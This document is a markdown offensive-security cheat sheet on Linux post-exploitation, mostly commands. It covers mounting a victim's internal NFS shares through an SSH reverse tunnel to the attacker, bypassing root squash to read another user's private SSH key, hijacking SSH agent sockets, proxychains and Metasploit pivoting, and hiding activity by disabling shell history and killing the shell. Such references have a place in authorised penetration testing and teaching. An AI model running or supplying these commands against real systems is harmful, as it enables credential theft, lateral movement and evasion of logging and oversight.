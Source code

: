 # Linux Post Methods

## NFS Proxy Mount

tags: nfs, proxy, proxychains, mount, reverse tunnle, ssh

### Mount internal NFS share through pivot

After compromising a host as a low-priv user, if the system has access to local NFS shares, the shares can be mounted via a proxy. One method is to create a SSH proxy and mount the NFS share on the remote attack box. In the easiest of cases, the below is all that is required.

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
# attacker
mount -t nfs -o port=2049 localhost:/share /mnt
```

As NFS uses multiple ports for protocol communication, and can make use of TCP or UDP, if the mount command fails, it is likely due to the `mountport` being unknown on the attacking system. This can be resolved by feeding the mount command the port manually. Run the following on the victim system to identify the port. 

```
rpcinfo -p $victim_nfs
```

Where the `mountd` port is the `mountport`, it can be fed to the mount command.

```
mount -t nfs -o port=2049,mountport=1234 localhost:/share /mnt
```

One may need to set the `-o proto=tcp` to ensure TCP is used. Or, the  NFS version may need to be set manually, such as `-o vers=3` or `-o vers=4`.

### Rootsquash / Squashfs Bypass

Some versions of NFS can be configured so that even after a proxy mount, as the root user on the attacking system, not all files can be accessed. This is due to a root squash. One way to bypass this protection is to create a local user with a matching `uid`. 

For example, after mounting the `nfs:/home` directory locally, trying to reach the user folder for `jane` as the local root user does not work.

On the victim system, run:

`id -u jane`

Collect the `uid` of jane. On the attacking system, run:

```
useradd --uid 3755
su jane
cat /mnt/jane/.ssh/id_rsa
```

## Pivoting Methods

### Local Port Forwarding
* `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`

### Remote Port Forwarding
* `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`

### Dynamic Port Forwarding
* `ssh -D <local proxy port> -p <remote port> <target>`

### Socket Hijack

From: https://twitter.com/REPTILEHAUS/status/1347103391961505792
Also: https://gist.github.com/int0x80/9e7b096684dd37c478198404d171aa3f

```
root@bastation: $ find /tmp/ssh-* -type s
/tmp/ssh-srQ6Q5UpOL/agent.1460

root@bastation: $ SSH_AUTH_SOCK=/tmp/ssh-srQ6Q5UpOL/agent.1460 ssh user@internal.company.tld

user@internal: $ hostname -f
internal.company.tld
```

### Proxychains
* First create a reverse tunnel from victim to attacker
    * `ssh -f -N -R 2222:127.0.0.1:22 root@208.68.234.100`
* Create dynamic application-level port forwarding on `8080`
    * `ssh -f -N -D 127.0.0.1:8080 -p 2222 hax0r@127.0.0.1`
* Configure proxychains to use port `8080` on attacking machine since the SSH
    process listening on that port will act as a SOCKS server
    * `proxychains nmap --top-ports=20 -sT -Pn 172.16.40.0/24`

### metasploit
* Add route to session
    * `route add 192.168.50.0 255.255.255.0 1`
* Setup proxy
    * `use auxiliary/server/socks4a`
    * `run`
* Select module (must be proxy aware)
    * `use auxiliary/scanner/ssh/ssh_login`
    * `set Proxies socks4:127.0.0.1:1050`

## THC

Nabbed from [The Hackers Choice](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

* Hide Commands

```
$ export HISTFILE=/dev/null
```

* Commit Suicide 

```
#alias exit='kill -9 $$'```
```

* Commands starting with a space will not get logged to history

```
$  id
```

* Almost invisible SSH

```
$ ssh -o UserKnownHostsFile=/dev/null -T user@server.org "bash -i"
```